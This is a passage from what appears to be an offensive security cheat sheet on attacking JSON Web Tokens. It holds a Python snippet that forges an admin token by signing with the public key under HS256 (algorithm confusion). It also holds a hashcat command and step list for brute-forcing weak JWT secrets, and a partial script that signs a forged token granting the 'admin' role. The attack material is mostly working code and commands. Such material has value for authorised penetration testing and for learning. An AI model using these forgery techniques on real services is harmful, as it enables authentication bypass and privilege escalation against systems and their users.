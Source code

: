        # Modify payload claims as needed
       payload["admin"] = True
       
       # Create new JWT with HS256 algorithm, signed using the public key as the secret
       new_jwt = jwt.encode(payload, public_key, algorithm="HS256")
       
       print(new_jwt)
       ```

  - **Secret key attacks**
    1. **Brute-forcing weak keys with hashcat**:
       - Step 1: Capture a valid JWT token
       - Step 2: Create or obtain a wordlist of common secrets
       - Step 3: Run hashcat with the appropriate mode
       - Step 4: Once the key is found, use it to sign your forged tokens
       - Step 5: Create a new token with modified claims and sign it with the discovered key
       - Command: `hashcat -a 0 -m 16500 "JWT_TOKEN" wordlist.txt`
       - Example with a common JWT secret wordlist:
       ```bash
       # Capture the JWT token
       JWT="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.Kh1ZJfXLnLFTLvmgOjuaEDJ4ydCz3Po2Iim-otN-Nbg"
       
       # Run hashcat against common secrets
       hashcat -a 0 -m 16500 "$JWT" /path/to/jwt-secrets.txt
       
       # After finding the secret (example: "secret123"), use it to create a new token
       ```
       - Python script to sign with discovered key:
       ```python
       import jwt
       
       # Secret discovered through brute force
       secret = "secret123"
       
       # Create payload with elevated privileges
       payload = {
           "sub": "1234567890",
           "role": "admin",
           "iat": 1516239022
       }
       